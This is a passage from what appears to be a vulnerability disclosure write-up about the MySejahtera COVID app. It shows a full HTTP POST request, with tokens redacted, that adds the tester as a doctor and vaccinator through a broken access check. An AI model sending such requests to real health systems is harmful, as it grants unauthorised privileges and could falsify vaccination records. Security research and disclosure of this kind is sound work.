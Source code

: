 Adding ourselves as doctor:
```
POST /checkin/v1/rest/api/vaccine/saveDoctorData/<redacted> HTTP/2
Host: mysejahtera.malaysia.gov.my
Cookie: acw_tc=<redacted>
Content-Length: 53
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
X-Auth-Token: <redacted>
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://mysejahtera.malaysia.gov.my
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mysejahtera.malaysia.gov.my/checkin/manageDoctorRecords/locationId/61761ead66a9d57d0bb8f93f?ln=food
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"name":"tester1","identityNumber":"36702","id":null}
```

So yeah, we can be a doctor and add ourselves as vaccinator. 
![Screenshot](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/add_as_doctor.png "Screenshot")
